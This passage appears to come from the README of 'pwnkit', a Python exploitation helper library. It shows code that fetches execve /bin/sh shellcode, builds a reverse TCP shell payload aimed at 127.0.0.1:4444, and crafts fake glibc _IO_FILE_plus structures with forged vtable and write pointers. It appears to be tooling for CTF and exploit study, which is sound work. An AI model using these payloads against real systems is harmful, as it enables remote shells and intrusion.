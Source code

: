 ```py

# 4) Retrieve via composite key
sc = ShellcodeReigstry.get(None, "amd64:execveat_bin_sh:29")
print(f"[+] Got shellcode: {sc.name}")
print(hex_shellcode(sc.blob))

print("")

# 5) Fuzzy lookup
sc = ShellcodeReigstry.get("amd64", "ls_")
print(f"[+] Fuzzy match: {sc.name}")
print(hex_shellcode(sc.blob))

print("")

# 6) Builder demo: reverse TCP shell (amd64)
builder = ShellcodeBuilder("amd64")
rev = builder.build_reverse_tcp_shell("127.0.0.1", 4444)
print(f"[+] Built reverse TCP shell ({len(rev)} bytes)")
print(hex_shellcode(rev))
```

Example output:

![shellcode](images/shellcode.jpg)

#### IO FILE Exploit

The `pwnkit` module also provides a helper for targeting glibc’s internal `_IO_FILE_plus` structures. The `IOFilePlus` class allows us to conveniently craft fake FILE objects:

```py
# By default, it honors `context.bits` to decide architecture
# e.g., we set Context(arch="amd64")
f = IOFilePlus()

# Or, we can specify one
f = IOFilePlus("i386")
```

Iterate fields of the FILE object:

```py
for field in f.fields:	# or f.iter_fileds()
    print(field)
```

Inspect its members offsets, names and sizes:

![iofile_fields](images/iofile_fields.jpg)

Set FILE members via names or aliases:

```py
# Use aliases
f.flags      = 0xfbad1800
f.write_base = 0x13370000
f.write_ptr  = 0x13370040
f.mode       = 0
f.fileno     = 1
f.chain      = 0xcafebabe
f.vtable     = 0xdeadbeef

# Also honors original glibc naming
f._flags = 0xfbad1800
f._IO_write_base = 0x13370000
```
